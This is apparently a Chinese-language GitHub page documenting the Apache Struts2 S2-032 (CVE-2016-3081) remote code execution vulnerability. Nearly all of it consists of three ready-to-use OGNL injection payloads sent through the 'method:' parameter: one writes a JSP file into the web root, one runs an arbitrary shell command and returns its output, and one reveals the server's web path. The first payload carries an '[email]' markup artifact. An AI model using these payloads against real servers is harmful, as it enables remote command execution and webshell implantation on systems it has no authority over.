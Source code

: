 2016年4月21 `Apache Struts2` 官方发布了一份安全公告: `服务在开启动态方法调用的情况下可以远程执行任意命令`,官方编号 `S2-032`,CVE编号 `CVE-2016-3081`

## 漏洞利用流程
客户端请求 `http://{webSiteIP.webApp}:{portNum}/{vul.action}?method={malCmdStr}`

## POC
### 上传文件
```
method:%23_memberAccess%[email]3d@ognl.OgnlContext[/email]@DEFAULT_MEMBER_ACCESS,%23req%3d%40org.apache.struts2.ServletActionContext%40getRequest(),%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding[0]),%23w%3d%23res.getWriter(),%23path%3d%23req.getRealPath(%23parameters.pp[0]),new%20java.io.BufferedWriter(new%20java.io.FileWriter(%23path%2b%23parameters.shellname[0]).append(%23parameters.shellContent[0])).close(),%23w.print(%23path),%23w.close(),1?%23xx:%23request.toString&shellname=uptest.jsp&shellContent=UpFile_test&encoding=UTF-8&pp=%2f
```

### 执行命令
```
method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse(),%23res.setCharacterEncoding(%23parameters.encoding[0]),%23w%3d%23res.getWriter(),%23s%3dnew+java.util.Scanner(@java.lang.Runtime@getRuntime().exec(%23parameters.cmd[0]).getInputStream()).useDelimiter(%23parameters.pp[0]),%23str%3d%23s.hasNext()%3f%23s.next()%3a%23parameters.ppp[0],%23w.print(%23str),%23w.close(),1?%23xx:%23request.toString&cmd=id&pp=\\A&ppp=%20&encoding=UTF-8
```

### 获取web路径
```
method:%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23req%3d%40org.apache.struts2.ServletActionContext%40getRequest%28%29,%23res%3d%40org.apache.struts2.ServletActionContext%40getResponse%28%29,%23res.setCharacterEncoding%28%23parameters.encoding[0]%29,%23path%3d%23req.getRealPath%28%23parameters.pp[0]%29,%23w%3d%23res.getWriter%28%29,%23w.print%28%23path%29,1?%23xx:%23request.toString&pp=%2f&encoding=UTF-8
```

## 参考
* [Struts2 漏洞分析及如何提前预防](http://my.oschina.net/secisland/blog/668647?fromerr=7rH2lggd#OSC_h4_2)
* [WoonYun - Struts2方法调用远程代码执行漏洞](http://drops.wooyun.org/papers/15430)

